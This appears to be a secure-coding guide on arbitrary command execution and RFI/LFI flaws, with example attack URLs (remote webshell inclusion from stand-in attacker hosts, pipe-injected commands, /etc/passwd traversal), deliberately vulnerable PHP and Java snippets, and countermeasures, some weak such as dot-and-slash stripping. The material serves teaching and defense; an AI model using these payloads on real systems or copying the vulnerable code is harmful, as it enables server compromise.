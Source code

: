 ```yaml
---
title: Arbitrary Command Execution Vulnerability
category: ""
order: 0
---
```


## 1. Vulnerability Description
* Systems such as web servers and database servers constantly analyze and process user requests and return results. Hackers attempt attacks in a variety of ways to mishandle applications that are working on the server, allowing them to execute the commands they want. As such, the execution of any command within the system is called to as an arbitrary command execution vulnerability.
![75_1](../images/command execution/1_eng.png)

* This vulnerability is mainly due to the failure to validate input values and may occur when:
  * If the file of the path entered is enclosed and processed by the Server Side Script (SSSI)
  * The value entered is used as a paramter of function associated with the execution of system commands within the Server Side Script.
* Hackers exploit this vulnerability to attempt additional attacks such as installing backdoor (zombie PCs, etc.) and viewing/manipulating/deleting databases, and tampering with the homepage, and are classified as high-risk vulnerabilities.

### 1.1. If the file of the input path is included and processed by Server Side Script
* As one of the methods of calling another page, the file or URL received as a parameter is recognized as Server Side Script and processed.<br>
For example, when the path to the page you want to open with a page paramter such as http://www.target.com/index.php?page=regist.php comes in, and 
if index.php is coded as ‚include ‚$page‛; ‛ and you change the page variable to the path of the previously uploaded php(php, but the extension is uploaded as jpg to avoid the logic that prohibits uploading) file, the command is executed according to the file contents.

```
ex 1) http://www.target.com/index.php?page=../upfile/member/attack.jpg
ex 2) http://www.target.com/index.php?page=http://attacker.com/attack.gif
```

### 1.2. If the value entered is used as a parameter of function associated with the execution of system commands within the Server Side Script.
* If the entered value is contained within a function that has the ability to execute system commands, you can execute multiple commands with the appropriate combination of the following special characters:

```
List of key special characters → ;(semicolon), |(pipe), &(ampersand), `(back quotation-mark)
(ex) http://www.target.com/technote/main.cgi?cmd=down&file=a.jpg|id; ls -al
```

### 1.3. RFI & LFI Vulnerabilities (Remote File Inclusion & Local File Inclusion)
* The RFI(Remote File Inclusion) vulnerability is a remotely executable vulnerability in which an attacker passes malicious scripts to the server and allows malicious code to be executed through that page. PHP is caused by a failure to properly check parameter values during delivery of $_GET, $_POST, and $_cookie values.
* The LFI(Local File Inclusion) vulnerability is similar to RFI, but differ in that the files are located on the target server.

* Ex. vulnerable.php (RFI vulnerability Inclusion)

```PHP
<?php
   if (isset($_GET['COLOR'])) {
      include($_GET['COLOR'] . '.php');
   }
?>
```

* Ex. HTML

```HTML
<form method="get">
   <select name="COLOR">
      <option value="red">red</option>
      <option value="blue">blue</option>
   </select>
   <input type="submit">
</form>
```

* Any command may be inserted because the 'COLOR' parameter does not have a filtering process. This enables the following attacks:

```
ex 1) http://www.target.com/vulnerable.php?COLOR=http://evil.example.com/webshell.txt?
ex 2) http://www.target.com/vulnerable.php?COLOR=C:\\ftp\\upload\\exploit
ex 3) http://www.target.com/vulnerable.php?COLOR=C:\\notes.txt%00
ex 4) http://www.target.com/vulnerable.php?COLOR=/etc/passwd%00
```


## 2. How to check vulnerability
* There are many programs that generate system commands using external inputs, such as parameters on the command line or stream inputs.<br>
In this case, however, the external input string is unreliable, and without proper handling, an attacker can execute the desired command.
![75_2](../images/command execution/2_eng.png)


## 3. Vulnerability Countermeasure
### 3.1. Validation of input values
* Check if there are any input values that correspond to unacceptable shapes and ranges.

### 3.2 External URL Opening Limit Setting
* For PHP, set the value of ‚allow_url_fopen‛ and ‚allow_url_include‛ to Off within the php.ini file to disable access to external URLs.

### 3.3. Programming input values not to be used as paramters for the following functions

```
include(), include_one(), require(), require_once(), fopen(), file(), file_get_contents()
```

* In particular, the following functions should not be used and should be more attentive than above if they should be used:

```
exec(), shell_exec(), system(), eval(), passthru(), preg_replace()
```

Language | Weak function
-- | --
C | system(), exec(), strcpy(), strcat(), sprintf(), etc
Java | system.* (system.runtime), etc
Perl | open(), sysopen(), glob(), system(), etc
PHP | require(), include(), eval(), exec(), passthru(), system(), fopen(), etc
Python | exec(), eval(), execfile(), compile(), input(), etc


### 3.4 Restrictions on Remote Command Execution Using RFI & LFI Vulnerabilities
* [PHP] Character filtering (../)

```PHP
str_replace(".", "", $path);
str_replace("/", "", $filename);
```

* Restrictions execution by modifying the php.ini file

```
...
allow_url_fopen = Off
allow_url_include = Off
display_errors = Off
...
```

## 4. Sample Code
* Vulnerable Code

```JAVA
...
public void f() throws IOException {
    Properties props = new Properties();
    String fileName = "file_list";
    FileInputStream in = new FileInputStream(fileName);
    props.load(in);
    String version = props.getProperty("dir_type");
    String cmd = new String("cmd.exe /K \"rmanDB.bat \"");
    Runtime.getRuntime().exec(cmd + " c:\\prog_cmd\\" + version);
    ...
}
```

* The example above uses the cmd.exe command to perform the rmanDB.bat batch command, and the externally transmitted dir_type value is used to generate the command string as a parameter for rmanDB.bat. 
* External attackers may perform unusual functions if the dir_type is not the intended parameter when delivering unintended strings.

* Safe Code

```JAVA
...
public void f() throws IOException {
    Properties props = new Properties();
    String fileName = "file_list";
    FileInputStream in = new FileInputStream(fileName);
    props.load(in);
    String version[] = {"1.0" , "1.1"};
    int versionSelection = Integer.parseInt(props.getProperty("version"));
    String cmd = new String("cmd.exe /K \"rmanDB.bat \"");
    String vs = "";
 
    // select a value from the list specified by the external input value.
    if (versionSelection == 0)
        vs = version[0];
    else if (versionSelection == 1)
        vs = version[1];
    else
        vs = version[1];
    Runtime.getRuntime().exec(cmd + " c:\\prog_cmd\\" + vs);
    ...
}
```